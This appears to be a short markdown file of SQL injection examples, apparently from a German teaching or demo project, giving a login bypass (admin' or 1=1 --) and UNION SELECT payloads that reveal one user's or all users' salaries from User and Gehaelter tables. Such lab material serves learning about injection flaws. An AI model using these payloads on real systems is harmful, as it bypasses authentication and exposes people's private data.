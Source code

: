 # Login Bypass and SQL Injection Examples

## Login Bypass Example

admin' or 1=1 --

## Login Bypass with UNION SELECT Example (zeigt ein Gehalt des aktuellen Users an)

admin' UNION SELECT username, email, position, gehalt FROM User JOIN Gehaelter ON User.id = Gehaelter.user_id --

## SQL Injection with UNION SELECT and GROUP_CONCAT Example (zeigt alle Gehälter an)

' UNION SELECT GROUP_CONCAT(username || ': ' || gehalt || '€', ' | '), 'Alle Gehälter', 'angezeigt', 'hier' FROM User
JOIN Gehaelter ON User.id = Gehaelter.user_id --


